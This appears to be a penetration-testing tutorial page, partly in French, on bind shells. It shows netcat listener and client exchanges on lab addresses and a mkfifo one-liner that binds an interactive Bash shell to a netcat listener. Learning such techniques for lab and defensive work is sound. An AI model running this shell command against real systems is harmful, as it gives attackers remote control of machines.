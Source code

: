 # Bind Shells

***

### <mark style="color:red;">What Is It?</mark>

{% hint style="info" %}
With a bind shell, the `target` system has a listener started and awaits a connection from a pentester's system (attack box).
{% endhint %}

<mark style="color:green;">**Bind Example**</mark>

![image](https://academy.hackthebox.com/storage/modules/115/bindshell.png)

Limites de Bind Shell

1. Il faudrait qu'un "listener" (écouteur) soit déjà démarré sur la cible.
2. Si aucun "listener" n'est démarré, il faudrait trouver un moyen d'en démarrer un.
3. Les administrateurs configurent généralement des règles strictes de pare-feu entrant et de NAT (avec PAT) sur les bords du réseau (exposé publiquement), donc il faudrait déjà être sur le réseau interne.
4. Les pare-feu des systèmes d'exploitation (Windows et Linux) bloquent souvent la plupart des connexions entrantes qui ne sont pas associées à des applications de réseau de confiance.

***

### <mark style="color:red;">Practicing with GNU Netcat</mark>

<mark style="color:orange;">**No. 1: Server - Target starting Netcat listener**</mark>

```shell-session
nc -lvnp 7777
```

<mark style="color:orange;">**No. 2: Client - Attack box connecting to target**</mark>

```shell-session
nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```

<mark style="color:orange;">**No. 3: Server - Target receiving connection from client**</mark>

```shell-session
nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51872 received!    
```

<mark style="color:orange;">**No. 4: Client - Attack box sending message Hello Academy**</mark>

```bash
nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
Hello Academy  
```

<mark style="color:orange;">**No. 5: Server - Target receiving Hello Academy message**</mark>

```shell-session
nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51914 received!
Hello Academy 
```

***

### <mark style="color:red;">Establishing a Basic Bind Shell with Netcat</mark>

<mark style="color:orange;">**No. 1: Server - Binding a Bash shell to the TCP session**</mark>

{% code fullWidth="true" %}
```shell-session
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```
{% endcode %}

{% hint style="info" %}
**C’est une boucle dans le sens où :**

* La machine cible attend des commandes via le tube nommé `/tmp/f` (reçu via Netcat).
* Dès que l'attaquant envoie des commandes, celles-ci passent dans le tube, sont exécutées par Bash, et les résultats sont envoyés de retour à l'attaquant.
* L'attaquant peut continuer à envoyer des commandes, et tant que la connexion est active, cette communication continue.
{% endhint %}
